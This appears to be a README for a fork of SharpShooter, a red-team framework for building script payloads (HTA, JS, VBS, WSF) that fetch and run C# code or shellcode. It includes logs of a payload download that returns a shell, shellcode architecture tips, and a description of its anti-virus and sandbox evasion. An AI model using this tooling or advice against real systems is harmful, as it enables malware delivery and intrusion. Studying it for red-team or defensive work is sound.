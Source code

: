 192.168.1.86 - - [19/Jan/2022:23:21:12 -0800] "-" 408 0 "-" "-"

^^ 408 status code '408 0 "-"'


After anywhere between 2 mins and 10 mins (based on testing)  total from .js click/run, "SmartScreen can't be reached.  Run anyways?".  After clicking yes, the payload is downloaded, and a shell is returned:

192.168.1.86 - - [19/Jan/2022:23:22:58 -0800] "GET /test.pay HTTP/1.1" 200 3373 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko"

^^ 200 status code '"GET /test.pay HTTP/1.1" 200 3373 "-"'

### Other notes:

For .hta payloads, mshta.exe is a 32-bit process, so keep in mind your shellcode should be 32bit too in that case.  Else, most likely prefer x64bit shellcode for all other scenarios in modern environments.

Also, don't be afraid of the DotNet ver=4, that's fixed now by the way.



Big ups MDSec!
Original project:  https://github.com/mdsecactivebreach/SharpShooter

##### We'll retain the unabridged Readme.md below ######
=========== =========== =========== =========== =========== =========== =========== ===========
```
   _____ __                    _____ __                __           
  / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
  \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
 ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /    
/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/     
                     /_/                                            

```

Description
===========

SharpShooter is a payload creation framework for the retrieval and execution of arbitrary CSharp source code.
SharpShooter is capable of creating payloads in a variety of formats, including HTA, JS, VBS and WSF. It leverages James Forshaw's [DotNetToJavaScript](https://github.com/tyranid/DotNetToJScript) tool to invoke methods from the SharpShooter DotNet serialised object. Payloads can be retrieved using Web or DNS delivery or both; SharpShooter is compatible with the MDSec ActiveBreach PowerDNS project. Alternatively, stageless payloads with embedded shellcode execution can also be generated for the same scripting formats.

SharpShooter payloads are RC4 encrypted with a random key to provide some modest anti-virus evasion, and the project includes the capability to integrate sandbox detection and environment keying to assist in evading detection.

SharpShooter includes a predefined CSharp template for executing shellcode with staged and stageless payloads, but any CSharp code can be compiled and invoked in memory using reflection, courtesy of CSharp's CodeDom provider.
